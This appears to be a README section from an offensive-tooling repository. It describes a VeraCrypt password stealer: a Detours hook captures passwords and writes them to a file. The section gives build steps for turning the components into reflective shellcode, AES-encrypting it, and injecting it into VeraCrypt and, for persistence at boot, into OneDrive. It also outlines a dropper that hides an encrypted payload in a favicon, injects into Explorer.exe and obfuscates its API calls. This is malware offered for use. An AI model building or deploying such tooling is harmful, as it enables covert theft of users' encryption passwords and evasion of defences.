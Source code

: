 ### VeraCryptPasswordStealer
- VCSniff is a 64 bit dll that uses DeTours to sniff the VeraCrypt password from the WideCharToMultiByte function and write it to `C:\temp\data.txt`  
- VCmigrate is a 32 bit dll that injects reflected dll from VCsniff into the 64bit VeraCrypt process, checks for this proccess every 5 seconds  
- VCpersist is a 64 bit program VChelper.exe that injects 64 bit reflected dll VCmigrate into 32 bit OneDrive program.
- Use VChelper.exe (VCpersist) with any persistent method to start at boot and be injected into OneDrive.
- [Example code](projects/VeraCryptPasswordStealer/)

#### Compile vcsniff.dll
- Compile as 64 bit.
```
compile.bat
```

#### Create Reflective DLL shellcode vcsniff.dll
- Copy `vcsniff.dll` to `VCmigrate` folder.
```
python ..\sRDI\Python\ConvertToShellcode.py -f DllMain vcsniff.dll
```

#### AES encrypt shellcode
```
python aesencryptfile.py vcsniff.dll > out.txt
```

#### Compile VCmigrate
- Place the payload and key inside the .cpp file.
- Compile as 32 bit.
```
compile.bat
```

#### Create Reflective DLL shellcode vcmigrate.dll
- Copy `vcmigrate.dll` to `VCpersist`  
```  
python3 ..\sRDI\Python\ConvertToShellcode.py -f Go .\vcmigrate.dll  
```  
  
#### AES encrypt shellcode
```  
python3 ..\VCmigrate\aesencryptfile.py .\vcmigrate.bin > out.txt  
```
  
#### Compile VCpersist
- Place the payload and key inside the .cpp file.
- Compile as 64 bit.
```  
compile.bat  
```

## Dropper Mapview Explorer
- [Dropper_AES_Favicon_MapView_Explorer](projects/Dropper_AES_Favicon_MapView_Explorer/)
- AES encrypted payload in `.src` section, inside favicon
- MapView injection into `Explorer.exe`
- Function call obfuscation with GetModuleHandle and GetProcAddress helpers

